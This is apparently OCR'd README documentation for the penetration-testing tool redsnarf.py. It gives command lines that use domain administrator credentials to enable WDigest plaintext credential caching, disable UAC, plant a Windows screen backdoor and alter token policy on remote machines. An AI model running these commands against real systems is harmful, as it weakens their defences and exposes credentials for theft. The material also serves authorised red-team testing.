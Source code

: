 

Local Access Token Policy  

Creates a batch file lat.bat which you can copy and paste to the remote machine to execute which will modify the registry and either enable or disable Local Access Token Policy settings.  

**./redsnarf.py -rL y**



Wdigest  

Enable UseLogonCredential Wdigest registry value on a machine using domain administrator credentials

**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rW e**



Disable UseLogonCredential Wdigest registry value on a machine using domain administrator credentials  

**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rW d**



Query UseLogonCredential Wdigest registry value on a machine using domain administrator credentials  

**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rW q**



UAC  

Enable UAC registry value on a machine using domain administrator credentials

**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rU e**



Disable UAC registry value on a machine using domain administrator credentials  

**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rU d**



Query UAC registry value on a machine using domain administrator credentials  

**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rU q**



Backdoor - Backdoor Windows Screen - Press Left Shift + Left Alt + Print Screen to activate  

Enable Backdoor registry value on a machine using domain administrator credentials  

**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rB e**



Disable Backdoor registry value on a machine using domain administrator credentials  

**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rB d**



Query Backdoor registry value on a machine using domain administrator credentials  

**./redsnarf.py -H ip=10.0.0.50 -u administrator -p Password01 -d yourdomain.com -rB q**
